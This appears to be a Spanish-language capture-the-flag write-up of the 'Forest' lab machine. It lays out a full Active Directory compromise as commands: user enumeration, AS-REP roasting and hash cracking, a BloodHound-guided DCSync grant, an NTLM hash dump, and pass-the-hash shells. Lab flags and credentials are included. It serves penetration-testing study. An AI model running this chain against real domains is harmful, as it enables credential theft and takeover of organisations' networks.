 ``sudo nmap 10.10.10.161 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``
![[Pasted image 20250313124032.png]]
![Pasted image 20250313124032](https://github.com/user-attachments/assets/cce45e1d-40db-41e1-8c41-31f49d98e1b7)


``nmap 10.10.10.161 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -oN target``
![[Pasted image 20250313124107.png]]
domain: htb.local

Vamos a ver un poco más del DC:
``netexec smb 10.10.10.161``
![[Pasted image 20250313124206.png]]

La máquina se llama FOREST. Y confirmamos que el dominio es htb.local
-> /etc/hosts
![[Pasted image 20250313124246.png]]

Para enumerar los usuarios del dominio, podemos conectarnos por RPC con null sesion:

``rpcclient -U '' 10.10.10.161 -N``
-> enumdomusers
![[Pasted image 20250313124508.png]]

Para guardarnos este listado de usuarios y después hacer el correspondiente tratamiento de los datos, vamos a redirigir el output a users.txt

``rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' > users.txt``

Si miramos el contenido de users.txt, es exactamente lo mismo que el output que vimos anteriormente:
![[Pasted image 20250313124641.png]]


Vamos a hacer un tratamiento a los datos para quedarnos sólo con lo que está entre los corchetes:

``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``
![[Pasted image 20250313124825.png]]


Con este listado de usuarios, y aunque no tengamos sus contraeñas, podemos, por ejemplo, intentar ASREPROAST:

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

-> Bingo.
![[Pasted image 20250313125028.png]]

Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Primero, vamos a averiguar el código de identificación de este tipo de hash (``krb5asrep$23$``) para hashcat:

``hashcat --help | grep -i "kerberos"``
![[Pasted image 20250313125209.png]]

Una vez sabemos el código de identificación, tiramos hashcat con rockyou.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``
![[Pasted image 20250313125311.png]]

svc-alfresco:s3rvice

Vamos a validar las credenciales:
``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![[Pasted image 20250313125410.png]]

Son credenciales válidas. Vamos a comprobar si permite winrm.
![[Pasted image 20250313125504.png]]
Pwn3d!, por lo que podemos conectarnos vía winRM.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![[Pasted image 20250313125644.png]]

Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:
![[Pasted image 20250313125828.png]]

user.txt = bf0f56f595904036ffb277db1f60f15a


# PRIVESC

Vamos a compartir bloodhound para ayudarnos en la escalada de privilegios.
-> arrancamos neo4j
``sudo neo4j start
-> arrancamos bloodhound
``bloodhound --no-sandbox &>/dev/null & disown``
Introducimos las credenciales de bloodhound.

Como en este escenario en concreto la víctima tiene el servicio DNS activado, podemos enumerar vía bloodhound-python:

``bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c all -ns 10.10.10.161``
![[Pasted image 20250313132042.png]]

Una vez hemos generado todos los archivos .json, los subimos desde bloodhound:
![[Pasted image 20250313132148.png]]

![[Pasted image 20250313132228.png]]

Una vez se ha subido correctamente toda la data, buscamos al usuario que tenemos pwneado: svc-alfresco
![[Pasted image 20250313132326.png]]

Y lo marcamos como owned:
![[Pasted image 20250313132345.png]]

Si miramos la información del nodo de svc-alfresco, apartado Reachable High Value Targets, vemos:
![[Pasted image 20250313145534.png]]

svc-alfresco forma parte de "Service Accounts", que a su vez forma parte de "Privileged It Accounts", que a su vez forma parte de "Account Operators".

Si miramos la información del nodo de "Account Operators" + Reachable High Value Targets:
![[Pasted image 20250313145759.png]]

Vemos que Accounts Operators tiene GenericAll sobre Exchange Windows Permissions, que a su vez tiene WriteDacl sobre el dominio htb.local:

Click derecho -> help
![[Pasted image 20250313145841.png]]

GenericAll sobre Exchange Windows Permissions:
![[Pasted image 20250313145901.png]]

WriteDacl sobre el dominio:
![[Pasted image 20250313153133.png]]

En el apartado "Windows Abuse" nos explica el paso a paso.
Para poder abusar de este privilegio a través de Add-DomainObjectAcl tenemos que compartir la herramienta powerview.ps1, para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

Creamos usuario pwn:
![[Pasted image 20250313155139.png]]

Le metemos en el grupo "Exchange Windows Permissions"
![[Pasted image 20250313155200.png]]

Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:
``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:
``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso.
	Aquí bloodhound propone ejecutar el anterior comando identificando al dominio (htb.local) de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza el ataque de DCSync desde el usuario pwn, nos salta error mencionando el Distinguised name.
	Error:
		![[Pasted image 20250313163246.png]]
	Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:
	![[Pasted image 20250313163310.png]]

Esto se soluciona identificando al dominio como:
``-TargetIdentity "DC=htb,DC=local"``
![[Pasted image 20250313160755.png]]


Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``
![[Pasted image 20250313161100.png]]

Nos aparecen todos los hashes NTLM, pero a nosotros nos interesa especialmente el del usuario Administrator.

Validamos el hashNTLM con netexec:
``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``
![[Pasted image 20250313161236.png]]
Listo.

Dado que conocemos el hash NTLM válido de Administrator, y como nos pone Pwn3d, podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM a través de la técnica Pass The Hash.

- psexec:
``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``
![[Pasted image 20250313161653.png]]

- wmiexec: 
``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161707.png]]

- evilwinrm:
Primero deberíamos validar que nos podemos conectar por winrm
``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161332.png]]

``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161907.png]]

Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt

![[Pasted image 20250313162055.png]]

root.txt = fba540a19e1959ee5e4fea99d18e01ce
